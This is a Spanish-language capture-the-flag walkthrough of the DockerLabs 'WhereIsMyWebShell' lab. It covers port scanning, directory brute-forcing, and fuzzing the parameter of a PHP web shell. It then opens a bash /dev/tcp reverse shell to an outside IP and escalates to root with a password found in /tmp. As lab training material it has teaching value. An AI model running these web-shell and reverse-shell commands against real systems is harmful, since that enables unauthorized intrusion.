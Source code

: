 ```yaml
---
title: WhereIsMyWebShell - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | El Pingüino de Mario        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/2adb662a-8cba-48da-82eb-b98ff3962e89)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `80` (HTTP)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.
```bash
nmap -p80 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/2f018b31-e463-4902-93b8-fc617163684a)

# Exploración Web
Al analizar el puerto `80`, encontramos una página de una academia de inglés.

![image](https://github.com/user-attachments/assets/a971e2a2-d111-40ad-b831-fca9dff08a03)

En la página, encontramos el mensaje:

> **Guardo un secretito en `/tmp ;)`.**

![image](https://github.com/user-attachments/assets/5b31edab-c844-4794-9505-8742014b107a)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/9032b1e7-3e90-49c1-b5cf-7119fa622888)

Encontramos dos archivos relevantes: `warning.html` y `shell.php`.

Explorando `warning.html` nos da pista sobre que `shell.php` tiene que tener una estructurura similar a esta:

![image](https://github.com/user-attachments/assets/225a25fe-307b-427e-a8e9-01a63a9bfde4)
```php
<?php
	system($_GET['shell']);
?>
```
Sin embargo, desconocemos el nombre del parámetro correcto para enviar comandos. Usamos `wfuzz` para identificarlo:
```bash
wfuzz -c --hl 0 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=id"
```
![image](https://github.com/user-attachments/assets/07c2a329-e749-477a-a9b1-478951bce4b8)

Descubrimos que el parámetro `parameter` permite la ejecución de comandos. Probamos el comando `id` y confirmamos la existencia de una ejecución remota de comandos **(RCE)**.

![image](https://github.com/user-attachments/assets/920b5471-35d4-458a-9d0e-de1f3fc5c7a9)

## Reverse Shell

Aprovechamos el **RCE** para iniciar una reverse shell. En la URL sustituimos el comando `id` por lo siguiente:
```bash
bash -c "bash -i >%26 /dev/tcp/192.168.10.150/443 0>%261"
```
Simultáneamente, iniciamos `netcat` en nuestro sistema para escuchar conexiones entrantes:
```bash 
nc -lvnp 4444
```
Al acceder a la reverse shell desde el navegador, logramos obtener acceso como `www-data`.
![image](https://github.com/user-attachments/assets/c59d752e-01b7-4776-8203-f937f296d8d5)

## TTY ReverseShell

### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
### Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos
```bash
Control+Z
```
para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local:
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```

### Configura el tipo de terminal:
```bash
xterm
export TERM=xterm
export SHELL=bash
```

# Escalada de Privilegios

Recordando el mensaje sobre `/tmp`, accedemos a este directorio:
```bash
ls -la
```
Encontramos un archivo oculto llamado `.secret.txt` que contiene la contraseña de root.

![image](https://github.com/user-attachments/assets/130efbd1-e383-4d6e-b066-57e84c42d871)

Usamos esta contraseña para acceder como `root`:

```bash
su root
```
Finalmente, obtenemos acceso como `root`.

![image](https://github.com/user-attachments/assets/4683c0d8-7892-4a30-93ec-632a7801bcec)
